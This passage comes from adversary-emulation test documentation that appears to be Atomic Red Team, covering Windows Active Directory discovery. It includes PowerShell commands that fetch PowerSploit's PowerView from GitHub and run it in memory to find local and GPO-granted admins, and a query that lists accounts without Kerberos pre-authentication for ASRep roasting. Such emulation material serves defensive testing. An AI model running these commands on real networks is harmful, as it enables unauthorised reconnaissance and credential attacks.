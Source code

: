 ```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Invoke-EnumerateLocalAdmin  -Verbose
```

<br/>
<br/>

## Atomic Test #6 - Find Local Admins via Group Policy (PowerView)

takes a computer and determines who has admin rights over it through GPO enumeration. Upon execution, information about the machine will be displayed.

**Supported Platforms:** Windows

**auto_generated_guid:** 64fdb43b-5259-467a-b000-1b02c00e510a

#### Inputs:

| Name          | Description                         | Type | Default Value     |
| ------------- | ----------------------------------- | ---- | ----------------- |
| computer_name | hostname of the computer to analyze | path | $env:COMPUTERNAME |

#### Attack Commands: Run with `powershell`!

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Find-GPOComputerAdmin -ComputerName #{computer_name} -Verbose
```

<br/>
<br/>

## Atomic Test #7 - Enumerate Users Not Requiring Pre Auth (ASRepRoast)

When successful, accounts that do not require kerberos pre-auth will be returned

**Supported Platforms:** Windows

**auto_generated_guid:** 870ba71e-6858-4f6d-895c-bb6237f6121b

#### Attack Commands: Run with `powershell`!

```powershell
get-aduser -f * -pr DoesNotRequirePreAuth | where {$_.DoesNotRequirePreAuth -eq $TRUE}
```

#### Dependencies: Run with `powershell`!

##### Description: Computer must be domain joined.
